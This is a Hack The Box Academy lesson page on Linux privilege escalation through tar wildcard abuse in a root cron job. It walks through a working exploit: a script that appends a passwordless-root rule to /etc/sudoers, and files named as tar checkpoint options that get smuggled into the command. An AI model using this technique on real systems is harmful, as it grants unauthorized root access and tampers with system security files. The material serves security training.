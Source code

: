 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/51/section/473
// Platform Version: V1
// Module ID: 51
// Module Name: Linux Privilege Escalation
// Module Difficulty: Easy
// Section ID: 473
// Section Title: Wildcard Abuse
// Page Title: Linux Privilege Escalation
// Page Number: 06
-->

# Wildcard Abuse

**Module Name:** Linux Privilege Escalation **Page Number:** 06

#### LINUX PRIVILEGE ESCALATION

# Wildcard Abuse

``` shell-session
htb_student@NIX02:~$ man tar

<SNIP>
Informative output
       --checkpoint[=N]
              Display progress messages every Nth record (default 10).

       --checkpoint-action=ACTION
              Run ACTION on each checkpoint.
```

``` shell-session
#
#
mh dom mon dow command
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```

``` shell-session
htb-student@NIX02:~$ echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
htb-student@NIX02:~$ echo "" > "--checkpoint-action=exec=sh root.sh"
htb-student@NIX02:~$ echo "" > --checkpoint=1
```

``` shell-session
htb-student@NIX02:~$ ls -la

total 56
drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
-rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint=1
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .font-unix
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .ICE-unix
-rw-rw-r--  1 htb-student htb-student   60 Aug 31 23:11 root.sh
```

``` shell-session
htb-student@NIX02:~$ sudo -l

Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: ALL
```

####